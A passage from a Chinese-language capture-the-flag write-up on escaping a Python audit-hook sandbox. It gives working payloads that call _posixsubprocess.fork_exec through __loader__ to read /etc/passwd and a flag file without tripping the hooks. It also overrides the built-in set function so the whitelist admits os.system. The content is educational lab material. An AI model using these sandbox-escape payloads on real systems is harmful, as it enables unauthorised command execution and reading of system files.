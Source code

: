 下面是一个最小化示例:
```py
import os
import _posixsubprocess

_posixsubprocess.fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

结合上面的 `__loader__.load_module(fullname)` 可以得到最终的 payload:
```py
__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module('os').pipe()), False, False,False, None, None, None, -1, None, False)
```

可以看到全程触发了 `builtins.input/result`, compile, exec 三个 hook, 这些 hook 的触发都是因为 input, compile, exec 函数而触发的, `__loader__.load_module` 和 `_posixsubprocess` 都没有触发.
```py
[+] builtins.input/result, ('__loader__.load_module(\'_posixsubprocess\').fork_exec([b"/bin/cat","/flag"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module(\'os\').pipe()), False, False,False, None, None, None, -1, None, False)',)
[+] compile, (b'__loader__.load_module(\'_posixsubprocess\').fork_exec([b"/bin/cat","/flag"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module(\'os\').pipe()), False, False,False, None, None, None, -1, None, False)', '<string>')
[+] exec, (<code object <module> at 0x7fbecc924670, file "<string>", line 1>,)
```


### 另一种解法: 篡改内置函数
这道 audit hook 题还有另外一种解法.可以看到白名单是通过 set 函数返回的, set 作为一个内置函数实际上也是可以修改的
```py
WHITED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
```

比如我们将 set 函数修改为固定返回一个包含了 os.system 函数的列表
```py
__builtins__.set = lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']
```
这样 set 函数会固定返回带有 os.system 的列表.

```py
__builtins__.set = lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']
```

最终 payload:
```py
# 
exec("for k,v in enumerate(globals()['__builtins__']): print(k,v)")

# 篡改函数
exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat flag2.txt')")
```
